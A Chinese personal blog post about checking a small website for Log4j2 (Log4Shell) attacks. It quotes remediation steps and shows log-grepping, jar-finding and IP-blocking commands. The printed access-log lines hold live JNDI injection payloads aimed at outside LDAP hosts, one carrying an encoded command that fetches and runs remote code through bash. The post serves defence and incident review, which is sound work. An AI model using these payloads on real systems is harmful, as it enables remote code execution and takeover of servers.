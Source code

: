 ```yaml
---
layout:     post
title:      个人网站Log4j2漏洞风险排查
subtitle:   世纪漏洞。
date:       2022-01-12
author:     YSY
header-img: img/404-bg.jpg
catalog: true
tags:
    - 问题不大
    - 后端
---
```


### 前言

Log4j2漏洞事件已经过去了几个月，影响面可以说是非常的广。本质上还是权限和代码注入问题，这里就不作赘述，和SQL注入在原理和形式上都异曲同工。

我个人没太明白还是，如此流行的开源库，竟然开发者和使用者这么久都没发现这个巨大漏洞（可能早有人发现但并未公布），而且作为一个日志记录工具，权限未免太高。

### 修复

从互联网上可以查到最新的修复建议：

> 1. 升级到最新版本：
>
>    目前官方已推出最新Apache log4j 2.15.0版本，可从地址中下载升级：https://logging.apache.org/log4j/2.x/download.html
>
> 2. 缓解措施：
>
> （1）添加jvm启动参数 -Dlog4j2.formatMsgNoLookups=true  
>
> （2）在应用程序的classpath下添加log4j2.component.properties配置文件文件，文件内容：log4j2.formatMsgNoLookups=True
>
> （3）移除log4j-core包中JndiLookup 类文件，并重启服务
>
> 具体命令：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
>
> （4）建议JDK使用11.0.1、8u191、7u201、6u211及以上的高版本
>
> （5）限制受影响应用对外访问互联网
>
> （6）禁用JNDI。如在spring.properties里添加spring.jndi.ignore=true
>
> （7）采用其他防护措施，更新WAF、RASP规则等

### 排查

其实在引起轩然大波之前，并没有多少人去尝试利用这个漏洞攻击别人的服务器，反倒是现在，一些阿猫阿狗也开始作妖。

我们直接查询HTTP服务的access日志，就能知道是不是有人试图攻击你的小破站了：

```bash
cat access.log | grep jndi
```

好家伙，非常多，这里只列几个来示例：

```bash
195.54.160.149 - - [24/Dec/2021:14:22:15 +0800] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MHx8d2dldCAtcSAtTy0gMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MCl8YmFzaA==} HTTP/1.1" 200 1307
221.199.187.100 - - [24/Dec/2021:21:01:54 +0800] "GET /${jndi:ldap://121.140.99.236:1389/Exploit} HTTP/1.1" 404 196
195.54.160.149 - - [25/Dec/2021:11:07:24 +0800] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MHx8d2dldCAtcSAtTy0gMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MCl8YmFzaA==} HTTP/1.1" 200 1307
170.210.45.163 - - [26/Dec/2021:08:32:29 +0800] "GET /${jndi:ldap://121.140.99.236:1389/Exploit} HTTP/1.1" 404 196
195.54.160.149 - - [27/Dec/2021:03:06:53 +0800] "GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MHx8d2dldCAtcSAtTy0gMTk1LjU0LjE2MC4xNDk6NTg3NC8xLjE0LjY3LjEzODo4MCl8YmFzaA==} HTTP/1.1" 200 1307
175.6.210.66 - - [31/Dec/2021:00:53:40 +0800] "GET /${jndi:ldap://121.140.99.236:1389/Exploit} HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:08 +0800] "POST /register?username=$%7Bjndi:ldap://78.31.67.151:1389/nuzomt%7D HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:09 +0800] "GET /register?id=$%7Bjndi:ldap://78.31.67.151:1389/nuzomt%7D HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:27 +0800] "POST /register?username=$%7Bjndi:ldap://78.31.67.151:1389/khslv8%7D HTTP/1.1" 404 196
78.31.67.151 - - [09/Jan/2022:11:12:28 +0800] "GET /register?id=$%7Bjndi:ldap://78.31.67.151:1389/khslv8%7D HTTP/1.1" 404 196
```

天南海北的IP地址，我真是谢谢你们光顾啊。

由于我的服务器并没有运行什么复杂的Web应用，所以问题应该不大，不然我估计连ssh都登不进去了。

1. 不过，我们还是要排查一下现状，先检查项目依赖库有没有log4j2，版本是否更新到了修复版本。我的项目都是个人开发的小玩意，所以没用到这个玩意。
2. 到关键目录中检索jar包，尤其是基于Java开发的，比如Apache HTTP目录、Tomcat目录以及一些自定义的正在运行的Java程序：

```bash
# 大概看下有哪些进程
ps -ef | grep java
# 到关键目录下直接find库包，一旦发现散落的jar，要么更新要么删里面的漏洞class
find . -name "log4j*"
```

3. 通过上述的access访问日志，看看哪些疯子在高频攻击，直接把IP或者IP段给ban了，让他搁这儿装逼：

```bash
# 如果用的是比较老的系统，比如Ubuntu 16.04之类的，多半还是iptables
iptables -I INPUT -s 78.31.67.151 -j DROP

# 如果是用的防火墙，比如CentOS 7上面
firewall-cmd --zone=public --add-rich-rule 'rule family="ipv4" source address="78.31.67.151" reject' --permanent
firewall-cmd --reload
```

4. 如果你还是不安心，先关机吧哈哈哈，断网才是终极大法，反正是个人网站。避避风头，把修复措施研究透彻，保证漏洞完全无法复现，再开机。

